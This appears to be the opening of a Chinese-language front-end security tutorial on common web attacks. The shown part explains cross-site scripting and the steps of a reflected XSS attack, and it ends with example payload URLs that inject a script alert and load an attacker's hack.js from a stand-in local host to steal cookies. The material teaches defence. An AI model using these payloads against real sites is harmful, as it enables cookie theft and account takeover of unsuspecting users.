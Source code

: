 ```yaml
---
title: 常见 Web 攻击（前端篇）
tags:
  - XSS
  - CSRF
  - 网络安全
categories: 网络
description: XSS分类与防范、CSRF攻击流程与防范、SQL注入、点击劫持、DDOS等
author: LiLyn
copyright: ture
abbrlink: '8188972'
---
```


## XSS

Cross Site Scripting（跨站脚本攻击），因为缩写和 CSS 重叠，所以改叫 XSS。跨站脚本攻击是指通过存在安全漏洞的 Web 网址注册用户的浏览器内运行非本站点 HTML 或 JavaScript 进行的一种攻击

跨站脚本攻击可以造成以下影响：

- 利用虚假输入表单骗取用户个人信息

- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求

  显示伪造的文章或图片

### XSS 攻击分类

#### 反射型 XSS

- 反射型：url 参数直接注入

  URL 注入非法脚本，然后发送给受害用户

  服务端返回的富文本中包含非法脚本，被直接展示

反射型 XSS 攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作

```html
<!-- 普通 -->
http://localhost:3000/?from=china

<!-- alert尝试 -->
http://localhost:3000/?from=<script>alert(3)</script>

<!-- 获取Cookie -->
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>

<!-- 伪造cookie入侵 -->
document.cookie="..."
```
